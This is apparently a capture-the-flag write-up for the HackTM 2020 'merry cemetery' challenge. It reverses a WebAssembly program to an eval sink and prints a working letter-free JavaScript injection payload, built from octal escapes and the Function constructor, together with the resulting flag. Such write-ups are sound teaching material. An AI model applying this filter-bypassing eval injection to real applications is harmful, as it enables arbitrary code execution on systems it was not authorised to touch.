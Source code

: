 # merry cemetery - HackTM 2020 Quals
## Introduction

merry cemetery is a pwn task.

It is a web-assembly task that can be run with `node merry_cemetery.js`.

The goal of this task is to obtain the content of a JavaScript variable, `aaaa`.
```
var aaaa = "HackTM{XXXXXXXXXXXXXXXXXXXXX-real-flag-on-remote-server}";
```

## Nobody likes web assembly

In order to understand what the web assembly file does, a tool has been used to
convert `wasm` to rust. This tool was found from a writeup of 36C3's web
assembly reverse task.

The main function is exported, which makes it possible to go to the main loop
quite easily.


The main loop first reads the user's input by calling `func_60`:
```rust
var_17 = func_60(); // read
var_18 = (var_17 << 24 >>s 24) - 36;
```

If the user's input is a `+`, it reads a joke and increments the local variable
at offset 24:
```rust
if var_18 == 7 { // +
    var_2 = load_8s<i32>(var_14 + 24);
    var_19 = load_8s<i32>(var_14 + 24);
    var_3 = func_62(var_19);

    if var_3 == 1 {
        var_20 = load_8s<i32>(var_14 + 24);
        var_7 = var_20 + 1 << 24 >>s 24;
        store_8<i32>(var_14 + 24, var_7) // var24++

        var_8 = load_8s<i32>(var_14 + 24);
        var_9 = load_8s<i32>(var_14 + 24) & 255;
        if var_9 == 255 {
            store<i32>(var_14 + 24, -1)
        }
    }
}
```

If the user's input is `$`, it will first check if the local variable at offset
24 is 255. (i.e. if 255 jokes have been submitted)

If it is, it will take a different path than the initial error:
```rust
if var_18 == 0 { // $
    var_23 = load_8s<i32>(var_14 + 24) & 255;
    if var_23 == 255 { // var24 == 255 ?
        var_24 = var_14 + 25;
        func_165(2, var_24, 1);
        var_25 = load_8s<i32>(var_14 + 25) & 255;
        func_65(var_25);
        env._exit(0);
    }
    else { // error
        var_26 = func_57(23724, 15016);
        var_27 = var_26;
        var_28 = 331;
        indirect_call((var_28 & 511) + 0)(var_27);
        env._exit(0);
    }
    return 0;
}
```

The program does behave differently after adding 255 jokes. The reward is to add
a longer joke to one's epitaph.

The joke is added by `func_65`:
```rust
var_3 = func_57(23724, 14848); // do to your kindness...
var_4 = 331;
indirect_call((var_4 & 511) + 0)(var_3);

var_5 = func_57(23724, 14970); // ++ Insert joke
var_6 = 331;
indirect_call((var_6 & 511) + 0)(var_5);

var_7 = func_166(0, 18144, arg_0); // probably a read
var_8 = func_64(var_7) != 0; // check joke
if var_8 {
    env._emscripten_run_script(18176);
    global_10 = var_1;
    return;
}

var_9 = func_57(23724, 14988); // Sorry quality jokes only
var_10 = 331;
indirect_call((var_10 & 511) + 0)(var_9);
global_10 = var_1;
return;
```

This function reads a joke, and calls `func_64` on it. If the function returns
0, the program will not consider the joke to be a "quality joke" and will exit.

```rust
var_13 = 0;
while true {
    if var_13 <s arg_0 - 1 == 0 {
        var_14 = 9; // good
        break;
    }

    var_15 = load_8s<i32>(18144 + var_13); // char[i]
    var_16 = var_15 << 24 >>s 24 >=s 98;
    if var_16 {
        var_1 = var_13;
        var_2 = 18144 + var_13;
        var_3 = load_8s<i32>(18144 + var_13);
        var_17 = load_8s<i32>(18144 + var_13);
        var_4 = var_17 << 24 >>s 24;
        var_5 = var_17 << 24 >>s 24 <=s 122; // 'b' <= char[i] <= 'z'
        if var_5 {
            var_14 = 7; // bad
            break;
        }
    }

    var_18 = load_8s<i32>(18144 + var_13); // char[i]
    var_19 = var_18 << 24 >>s 24 >=s 65;
    if var_19 {
        var_6 = var_13;
        var_7 = 18144 + var_13;
        var_8 = load_8s<i32>(18144 + var_13);
        var_20 = load_8s<i32>(18144 + var_13);
        var_9 = var_20 << 24 >>s 24;
        var_10 = var_20 << 24 >>s 24 <=s 90; // 'A' <= char[i] <= 'Z'
        if var_10 {
            var_14 = 7; // bad
            break;
        }
    }
    var_13 += 1;
}

if var_14 == 7 {
    global_10 = var_11;
    return 0;
}
if var_14 == 9 {
    global_10 = var_11;
    return 1;
}
return 0;
```

This function checks each character of the input. If any of them is in the range
`[b-zA-Z]`, it will not be considered a quality joke.

This can be confirmed by sending a joke that only contains `a`. What a quality
joke:
```
exception thrown: ReferenceError: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa is not defined,ReferenceError: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa is not defined
    at eval (eval at _emscripten_run_script (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry cemetery/merry_cemetery.js:4941:7), <anonymous>:1:1)
    at _emscripten_run_script (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry cemetery/merry_cemetery.js:4941:7)
    at _gravestone (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry cemetery/merry_cemetery.js:6420:3)
    at _main (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry cemetery/merry_cemetery.js:6506:3)
    at Object.asm._main (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry cemetery/merry_cemetery.js:57690:21)
    at Object.callMain (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry cemetery/merry_cemetery.js:58006:30)
    at doRun (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry cemetery/merry_cemetery.js:58064:60)
    at run (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry cemetery/merry_cemetery.js:58078:5)
    at Object.<anonymous> (/home/user/ctf/2020/2020-02-01-HackTM/pwn/merry cemetery/merry_cemetery.js:58201:1)
    at Module._compile (internal/modules/cjs/loader.js:1151:30)
```

## character-less eval

The primitive shown above will evaluate JavaScript code that contains no
character, excepts `a`.

The `jsfuck` obfuscator cannot be used, because the payload is limited in size.

It is possible to define strings in JavaScript using the octal notation. (`\141`
for `a`). Variables that start with `_` and `$` can be used to store
information.

The idea is to use `Function` to create a new lambda function and call it
immediately:
```js
> Function("console.log(123)")()
123
```

`Function` is any function's constructor. It can be accessed with:
```js
> ''.constructor.constructor
[Function: Function]
> ''.constructor.constructor("console.log(123)")()
123
```

The following payload (without comments) was used to throw an exception that
contains the flag. It contains the tricks presented prior:
```js
_=aaaa; // broaden scope of aaaa
$='\143\157\156\163\164\162\165\143\164\157\162'; // "constructor"
''[$][$]('\164\150\162\157\167 _')() // "throw _"
```


```
 Due to your kindness and hard work, the locals would like to reward you by allowing you to decorate your own gravestone.
 ++ Insert Joke:

_=aaaa;
$='\143\157\156\163\164\162\165\143\164\157\162';
''[$][$]('\164\150\162\157\167 _')()


exception thrown: HackTM{m4y_y0ur_d4ys_b3_m3rry_4nd_br1ght}
```

**Flag**: `HackTM{m4y_y0ur_d4ys_b3_m3rry_4nd_br1ght}`
